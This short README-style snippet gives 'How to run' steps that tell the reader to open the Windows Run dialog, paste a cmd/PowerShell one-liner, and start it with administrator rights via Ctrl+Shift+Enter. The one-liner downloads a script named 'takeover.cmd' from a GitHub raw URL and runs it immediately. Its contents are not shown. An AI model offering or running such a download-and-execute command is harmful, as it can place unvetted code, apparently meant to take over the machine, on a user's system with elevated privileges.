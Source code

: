 **How to run:**
- Win+R
- Paste:
```
>*cmd /k powershell  -command "Invoke-WebRequest -Uri https://raw.githubusercontent.com/Fidasek009/1337/main/takeover.cmd -OutFile .\takeover.cmd; .\takeover.cmd"*
```
- Ctr+Shift+Enter
